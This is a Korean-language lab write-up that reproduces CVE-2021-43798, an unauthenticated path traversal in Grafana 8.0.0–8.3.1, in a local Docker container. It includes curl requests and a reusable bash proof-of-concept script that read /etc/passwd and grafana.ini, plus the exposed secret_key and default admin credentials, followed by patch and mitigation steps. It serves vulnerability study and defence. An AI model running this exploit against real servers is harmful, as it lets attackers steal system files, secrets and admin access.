





# Grafana Path Traversal — CVE-2021-43798

**Contributors**: @LEEJIHUN6844

| 항목            | 내용                       |
| --------------- | -------------------------- |
| CVE             | CVE-2021-43798             |
| 영향 버전       | Grafana 8.0.0 ~ 8.3.1      |
| 취약점 유형     | Path Traversal (경로 순회) |
| CVSS v3.1 Score | **7.5** (High)             |
| 인증 필요 여부  | 없음                       |
| 원격 악용       | 가능                       |
| 패치 버전       | Grafana 8.3.2 이상         |

---

## 취약점 요약

Grafana 8.x의 플러그인 정적 파일 서빙 경로(`/public/plugins/:pluginId/`)에서 경로 순회(Path Traversal) 취약점이 발견되었습니다 공격자는 인증 없이 `../` 시퀀스를 이용해 Grafana 서버 내부의 임의 파일을 읽을 수 있는 취약점입니다

이를 통해 `/etc/passwd`, `/etc/grafana/grafana.ini` 등 민감한 시스템 파일과 설정 파일이 노출되며, 특히 `grafana.ini`에는 세션 서명에 사용되는 `secret_key`, 데이터베이스 접속 정보, 관리자 계정 정보가 포함되어 있어 추가 공격으로 이어질 수 있습니다.

**참고 자료**

- [NVD - CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)
- [Grafana 공식 보안 공지](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/)

---

## 환경 구성

**요구 사항**: Docker, Docker Compose v2

```bash
git clone https://github.com/LEEJIHUN6844/kr-vulhub.git
cd kr-vulhub/Grafana/CVE-2021-43798
docker compose up -d
```

이후 컨테이너가 완전히 시작되기까지 약 10초정도가 소요됩니다!
컨테이너가 실행된 후 아래와 같은 명령어를 통해 정상반응을 확인해주었습니다!

```bash
docker compose ps
curl -I http://localhost:3000
# HTTP/1.1 302 Found 응답이 오면 정상
```



---

## 취약 조건

| 조건      | 내용                                |
| --------- | ----------------------------------- |
| 취약 버전 | Grafana 8.0.0 이상 8.3.1 이하       |
| 설정      | 기본 설치 상태, 별도 설정 불필요    |
| 인증      | 불필요 (익명 접근으로 악용 가능)    |
| 네트워크  | Grafana 포트(기본 3000)에 접근 가능 |

`/public/plugins/:pluginId/` 경로는 플러그인의 정적 파일을 인증 없이 제공하는 엔드포인트입니다. 이 경로에서 `../`를 정규화하지 않아 서버 루트(`/`) 기준으로 임의 파일에 접근할 수 있다는 취약점이 있습니다!

---

## 재현 절차

### 1단계 - 환경 실행

```bash
docker compose up -d
sleep 10
docker compose ps
```

### 2단계 — curl 경로 정규화 문제 확인

`--path-as-is` 옵션 없이 실행해본결과 curl이`../`를 로컬에서 먼저 정규화하여 취약점이 재현되지 않았습니다

```bash
curl --path-as-is -s "http://localhost:3000/public/plugins/piechart/../../../etc/passwd"
# {"message": "Plugin file not found"}
```



### 3단계 — 경로 깊이 조정으로 /etc/passwd 읽기 성공

Grafana는 `/usr/share/grafana/public/plugins/<pluginId>/` 기준으로 파일을 찾으므로, 루트(`/`)에 도달하려면 `../`를 충분히 반복해야 한다는걸 찾아봤습니다!

```bash
curl --path-as-is -s \
  "http://localhost:3000/public/plugins/text/../../../../../../../../etc/passwd"
```



`root:x:0:0:root:/root:/bin/ash` 등 시스템 사용자 목록이 인증 없이 출력되는걸 확인할 수 있습니다!

### 4단계 — 민감 설정 파일 읽기

```bash
curl --path-as-is -s \
  "http://localhost:3000/public/plugins/text/../../../../../../../../etc/grafana/grafana.ini"
```

**데이터베이스 설정 노출:**



**secret_key 및 관리자 계정 노출:**



노출되는 주요 정보:

- `secret_key = SW2YcwTIb9zpOOhoPsMm` (세션 토큰 서명 키)
- `admin_user = admin` / `admin_password = admin`
- 데이터베이스 타입, 호스트, 계정 정보 등

---

## PoC 코드

```bash
#!/bin/bash
TARGET=${1:-"http://localhost:3000"}
FILE=${2:-"/etc/passwd"}

echo "[*] Target : $TARGET"
echo "[*] Reading: $FILE"
echo "----------------------------------------"

curl --path-as-is -s \
  "${TARGET}/public/plugins/text/../../../../../../../../${FILE}"
```

**실행 방법:**

```bash
# 기본 실행 (/etc/passwd 읽기)
./poc.sh

# 설정 파일 읽기
./poc.sh http://localhost:3000 /etc/grafana/grafana.ini
```

---

## 실행 결과

| 대상 파일                  | 결과                                  |
| -------------------------- | ------------------------------------- |
| `/etc/passwd`              | 시스템 사용자 목록 전체 출력          |
| `/etc/grafana/grafana.ini` | secret_key, DB 정보, 관리자 계정 노출 |
| `/etc/hostname`            | 컨테이너 호스트명 출력                |

secret_key가 노출될 경우 공격자는 해당 키를 이용해 Grafana 세션 토큰을 위조하여 관리자 권한을 탈취할 수 있습니다

---

## 대응 방안

| 방법            | 내용                                                                |
| --------------- | ------------------------------------------------------------------- |
| **패치 (권장)** | Grafana 8.3.2 이상으로 업그레이드                                   |
| 방화벽          | Grafana 포트(3000)를 신뢰 네트워크로만 제한                         |
| secret_key 교체 | `grafana.ini`의 `secret_key` 값을 안전한 랜덤 값으로 변경 후 재시작 |
| 기본 계정 변경  | 초기 `admin/admin` 계정 비밀번호 즉시 변경                          |

---

```bash
# docker-compose.yml에서 이미지 버전을 패치 버전으로 변경
# image: grafana/grafana:8.3.2
docker compose down
docker compose up -d
```

---

## 환경 종료

```bash
docker compose down -v
```
